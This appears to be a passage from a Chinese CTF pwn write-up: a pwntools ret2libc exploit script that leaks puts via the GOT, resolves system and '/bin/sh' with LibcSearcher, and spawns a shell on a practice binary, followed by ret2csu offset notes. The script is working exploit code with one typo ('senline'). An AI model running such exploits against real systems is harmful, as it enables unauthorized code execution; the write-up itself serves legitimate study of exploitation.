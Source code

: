 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
from LibcSearcher import *

context(log_level = "debug",arch = "i386",os = "linux")

io = process("./ret2libc")
if args.g:
	gdb.attach(io)
elf = ELF("./ret2libc")

put_plt = elf.plt["puts"]
put_got = elf.got["puts"]
start = elf.sym["_start"]

payload1 = flat([112 * 'A',put_plt,start,put_got])#<-第一次泄露puts函数的地址

io.sendafter("!?",payload1)

puts_addr = u32(io.recv(4))
libc =  LibcSearcher('puts', puts_addr)
libcbase = puts_addr - libc.sym["puts"]
system = libcbase + libc.sym["system"]
binsh = libcbase + libc.sym["/bin/sh"]

payload2 = flat([112 * 'A',system,'0xdeadbeef',binsh])

io.recvuntil("!?")
io.sendline(payload2)

io.senline("ls")
io.interactive()


```

###### ret2csu

![main.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghezbwc2jbj30dr05yq32.jpg)主要函数里面由于read读入过多，可以让我们进行构造来获得shell

传参的取处我们选择利用 `__libc_csu_init`函数的万能传参![csu_start.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghezgapgh1j30tg04m74w.jpg)利用这里的pop来进行传参。![计算偏移.jpg](http://ww1.sinaimg.cn/large/006pBakIgy1ghezqvit90j30da016q2u.jpg)    在调试中进入write函数，看到`rbp`和`rsp`然后计算偏移

```python
In [6]: rsp = 0x7fffffffdc48
In [7]: rbp = 0x7fffffffdcd0                                                
In [8]: rbp-rsp                                           Out[8]: 136

In [9]: hex(136)                                         Out[9]: 0x88

```

